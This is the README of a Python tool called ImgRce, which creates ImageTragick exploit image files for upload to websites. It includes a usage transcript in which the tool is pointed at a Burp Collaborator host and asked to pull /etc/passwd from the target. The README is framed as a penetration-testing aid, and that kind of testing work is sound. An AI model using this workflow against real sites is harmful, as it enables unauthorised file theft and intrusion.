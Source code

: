 ## ImgRce
Image Tragick Exploit Tool

Author: Ankit Singh

## Disclaimer: 
This tool is for educational purpose and penetration testing. i am not responsible for any damage.

## Compatibility:
Windows , Linux or any device running python 2.7

## Requirements:
Python 2.7

## Description:
ImgRce is for Image Tragick Exploit using Burp Collaborator. ImgRce Create the Image file you just upload the file on website. you will get the response in your burp Collaborator.

## Usage:
python imgrce.py
Enter the Burp Collaborator Link> adsfhgfahgfdsaghhafd.net

0 for Exit
1 for Ping
2 For System File

select the option> 2    
Enter the system file name> /etc/passwd     

Exploit Created!.. visit the Collaborator                                                     
 
 
